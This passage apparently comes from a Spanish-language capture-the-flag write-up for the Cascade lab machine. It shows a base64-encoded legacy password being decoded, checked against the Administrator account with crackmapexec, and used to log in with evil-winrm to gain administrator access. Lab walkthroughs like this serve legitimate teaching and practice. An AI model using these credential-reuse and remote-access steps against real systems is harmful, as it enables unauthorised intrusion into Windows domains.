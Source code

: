 Aqui encontramos su **CascadeLegacyPwd** en base64

```bash
echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d; echo
```

Parece ser una contraseña. Como en el email que hemos encontrado, se supone que la contraseña es la misma que la contraseña del usuario **Administrator**.
Lo comprobamos

```bash
crackmapexec smb 10.10.10.182 -u 'Administrator' -p 'baCT3r1aN00dles'
```

y si vemos el **Pwn3d!**. Esto quiere decir que nos podemos conectar con **Evil WinRM**.

```bash
evil-winrm -i 10.10.10.182 -u 'Administrator' -p 'baCT3r1aN00dles'

whoami
#Output 
cascade\administrator
```

Ya podemos leer la flag.

